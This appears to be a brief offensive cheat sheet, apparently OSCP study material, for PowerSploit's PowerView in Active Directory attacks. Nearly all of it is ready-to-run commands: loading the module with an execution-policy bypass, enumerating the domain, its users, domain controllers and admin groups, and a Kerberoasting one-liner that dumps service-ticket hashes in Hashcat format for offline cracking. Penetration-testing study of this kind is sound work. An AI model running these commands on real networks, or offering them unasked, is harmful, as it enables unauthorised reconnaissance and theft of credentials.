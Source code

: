 # PowerView.ps1

* [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```powershell
powershell.exe -exec bypass; Import-Module PowerView.ps1
[OR] . .\PowerView.ps1
```

## Domain information

```bash
Get-NetDomain
Get-DomainSID
Get-DomainPolicy
Get-NetDomainController [-Domain DOMAIN]
# can use ping to figure out IP
```

## Domain Users

```powershell
Get-NetUser | select samaccountname,userprincipalname, memberof
Get-NetUser * -Domain DOMAIN | Select-Object -Property name,samaccountname,description,memberof,admincount,userprincipalname, serviceprincipalname, useraccountcontrol
```

### Kerberoastable Users

```powershell
Get-NetUser -SPN | select serviceprincipalname
Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
```

## Domain Groups

```powershell
Get-NetGroup [-GroupName *admin*]
```

## References

* [https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands)
* [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)